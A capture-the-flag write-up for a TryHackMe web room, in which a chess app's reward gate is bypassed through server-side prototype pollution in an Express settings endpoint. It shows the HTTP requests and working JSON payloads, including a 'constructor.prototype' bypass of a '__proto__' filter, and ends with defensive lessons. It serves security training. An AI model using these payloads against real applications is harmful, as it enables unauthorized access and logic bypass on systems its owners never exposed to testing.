



## Overview

**Fools Mate, Revenge** ([TryHackMe](https://tryhackme.com/room/foolsm8v2)) is a small web box built around a chess app running on an Express backend. You play out a won endgame position, deliver checkmate, and expect a flag — except the reward is gated behind a `session.config.unlocked` flag that the game never sets for you. The settings endpoint is the way in: it merges attacker-controlled JSON into the session config and is vulnerable to prototype pollution. `__proto__` is blocked, but the `constructor.prototype` route isn't, so we pollute `unlocked` onto every object, replay the checkmate, and the reward gate opens.


---

## Enumeration

The app is just a chessboard with a handful of controls: reset the position, make a move, and a settings panel for board theme and piece set. Nothing to fuzz on the surface, so I clicked every link and button and let Burp capture the traffic. Four endpoints fall out of it, all JSON over Express on port 3000:



`GET /api/state` returns the current board as a FEN string:

```http
GET /api/state HTTP/1.1
Host: 10.113.135.10:3000
Cookie: sid=72db85a432c437263dc7e22e879b7c0d
```

```json
{"ok":true,"fen":"6k1/5ppp/8/8/8/5PP1/7P/R5K1 w - - 1 3","status":"ongoing","turn":"w"}
```

We're white, it's our move, and the position is a rook-and-pawns endgame against a lone black king — a trivially won game. `POST /api/move` plays a move and the engine answers with the bot's reply:

```http
POST /api/move HTTP/1.1
Content-Type: application/json

{"from":"f3","to":"f4"}
```

```json
{"ok":true,"move":"f3f4","fen":"7k/5ppp/8/8/5P2/6P1/7P/R5K1 w - - 1 4",
 "status":"ongoing","turn":"w","botMove":"g8h8"}
```

`POST /api/settings` stores UI preferences, and `POST /api/reset` puts the board back to the starting endgame. The settings payload is small and looks strictly allowlisted:

```http
POST /api/settings HTTP/1.1
Content-Type: application/json

{"theme":"midnight","pieceSet":"classic","animationMs":180}
```

```json
{"ok":true,"preferences":{"theme":"midnight","pieceSet":"classic","animationMs":180}}
```

Three keys, a fixed shape, values echoed straight back. I filed it away — a "preferences" blob merged into a session object is exactly the kind of thing that turns into prototype pollution, but at this point I had no reason to think the game needed anything more than playing it out.

> I've trimmed the boilerplate request headers (User-Agent, Accept, etc.) from these captures — only the method, path, cookie, and body matter here.
{: .prompt-info }

---

## The reward gate

So I played the game. Rook and pawns against a bare king is a forced mate, and after walking the rook to the back rank the final move flips the status:

```json
{"ok":true,"move":"a1a8","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
 "status":"checkmate","turn":"b","winner":"white","locked":true,
 "message":"Checkmate! No reward for you.",
 "reason":"reward gate closed: session.config.unlocked is not set"}
```

Checkmate, white wins — and no flag. The `reason` field spells out exactly why: `reward gate closed: session.config.unlocked is not set`. Winning the game was never the objective; the objective is getting `session.config.unlocked` to be truthy.

That immediately points back at `/api/settings`, because that's the only endpoint that writes anything into the session config. But its allowlist is the whole problem — it takes `theme`, `pieceSet`, and `animationMs`, and `unlocked` isn't one of them. Sending it as a fourth key just gets dropped. I needed a way to set a property the server's allowlist doesn't expect.

One quick probe before committing to a theory: I broke the `animationMs` value with a stray single quote to see how the backend reacts. Instead of a clean validation error it coughed up a server-side JS error trace, which told me the settings payload is being parsed and merged server-side rather than sanitised into fixed fields. That's the signal I wanted — a recursive merge of user JSON into an object is the classic prototype pollution sink.

---

## Prototype pollution

The plan: instead of trying to set `unlocked` on the config object directly (blocked by the allowlist), pollute it onto `Object.prototype` so that `session.config.unlocked` resolves to `true` through the prototype chain even though it was never set as an own property. The [HackTricks Node.js prototype pollution notes](https://hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/index.html) are the reference I worked from.

First attempt, the textbook `__proto__` payload alongside the normal preference keys so the merge still looks valid:

```json
{"theme":"midnight","pieceSet":"classic","animationMs":180,
 "__proto__":{"unlocked":true}}
```

Nothing. The response comes back normal and replaying the checkmate still hits the closed gate. `__proto__` is being stripped or the merge explicitly skips that key — a common hardening against exactly this attack.

The reference covers that case: when `__proto__` is filtered, you can often still reach the prototype through `constructor.prototype`, which lands at the same object by a different path. Swap the payload:

```json
{"theme":"midnight","pieceSet":"classic","animationMs":180,
 "constructor":{"prototype":{"unlocked":true}}}
```

This one goes through. `constructor.prototype.unlocked` sets `unlocked` on the prototype every plain object inherits from, so now *any* object's `.unlocked` lookup — including `session.config.unlocked` — returns `true`.

With the prototype poisoned, reset the board and play the mate out one more time. Same sequence of moves, but this time the gate reads `unlocked` as set and releases the flag:



> **Flag**: `THM{...}`
{: .prompt-info }

---

## Conclusion

The chess game is a distraction — the whole box is one server-side flaw dressed up as a puzzle:

1. **Reward gated on a session flag** — the game leaks its own gate logic in the `reason` field (`session.config.unlocked is not set`), telling the attacker exactly which property to target.
2. **Preferences merged into session state** — `/api/settings` recursively merges attacker JSON into the session config object instead of copying a fixed set of fields, which a stray quote confirmed by dumping a server-side error.
3. **Prototype pollution** — `__proto__` is filtered, but `constructor.prototype` reaches `Object.prototype` all the same, letting us set `unlocked` globally so `session.config.unlocked` resolves truthy and the reward gate opens.



### Tools used

| Stage | Tools |
|-------|-------|
| API mapping | Burp Suite (Proxy history) |
| Gate analysis | manual response reading |
| Exploitation | Burp Repeater, HackTricks Node.js proto reference |
